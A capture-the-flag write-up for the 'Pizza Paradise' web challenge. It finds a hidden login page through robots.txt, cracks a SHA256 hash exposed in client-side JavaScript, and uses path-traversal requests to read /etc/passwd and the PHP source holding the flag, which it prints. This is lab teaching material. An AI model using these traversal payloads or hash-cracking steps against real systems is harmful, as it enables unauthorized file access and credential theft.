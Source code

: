 ```yaml
---
name: Pizza Paradise (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Web
description: Writeup for Pizza Paradise (Web) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Pizza Paradise

## Challenge Description

> Something weird going on at this pizza store!!

## Solution

Players arrive at an online pizza store (AI making some tasty looking pizzas these days 🤤).

![](./images/0.PNG)

There is appears to be nothing of interest, but `/robots.txt` has something.

{% code overflow="wrap" %}
```txt
User-agent: *
Disallow: /secret_172346606e1d24062e891d537e917a90.html
Disallow: /assets/
```
{% endcode %}

It's some kind of top secret login portal 🕵️‍♂️
![](./images/1.PNG)

Check the page source.

{% code overflow="wrap" %}
```js
function hashPassword(password) {
    return CryptoJS.SHA256(password).toString();
}

function validate() {
    const username = document.getElementById("username").value;
    const password = document.getElementById("password").value;

    const credentials = getCredentials();
    const passwordHash = hashPassword(password);

    if (username === credentials.username && passwordHash === credentials.passwordHash) {
        return true;
    } else {
        alert("Invalid credentials!");
        return false;
    }
}
```
{% endcode %}

The `getCredentials()` function is in `/assets/js/auth.js`.

{% code overflow="wrap" %}
```js
const validUsername = "agent_1337";
const validPasswordHash = "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";

function getCredentials() {
    return {
        username: validUsername,
        passwordHash: validPasswordHash,
    };
}
```
{% endcode %}

Crack the SHA256 hash with `hashcat`, `john` or [crackstation](https://crackstation.net).

{% code overflow="wrap" %}
```txt
agent_1337:intel420
```
{% endcode %}

Now we get access to the portal and can download some secret images.
![](./images/2.PNG)

The download function makes a GET request.

{% code overflow="wrap" %}
```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/topsecret1.png
```
{% endcode %}

Maybe we can try `/etc/passwd`

{% code overflow="wrap" %}
```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/etc/passwd
```
{% endcode %}

But we get an error: `File path not allowed!`

With some trial and error, it's clear that removing `/assets/images/` will cause problems. Let's try path traversal instead.

{% code overflow="wrap" %}
```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../../../../etc/passwd
```
{% endcode %}

It works! We could try common locations for a `flag.txt` _or_ we could download the PHP source code of the web app 💡

{% code overflow="wrap" %}
```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../topsecret_a9aedc6c39f654e55275ad8e65e316b3.php
```
{% endcode %}

Inside, we find the flag!

{% code overflow="wrap" %}
```php
$flag = 'INTIGRITI{70p_53cr37_m15510n_c0mpl373}';
```
{% endcode %}

Flag: `INTIGRITI{70p_53cr37_m15510n_c0mpl373}`
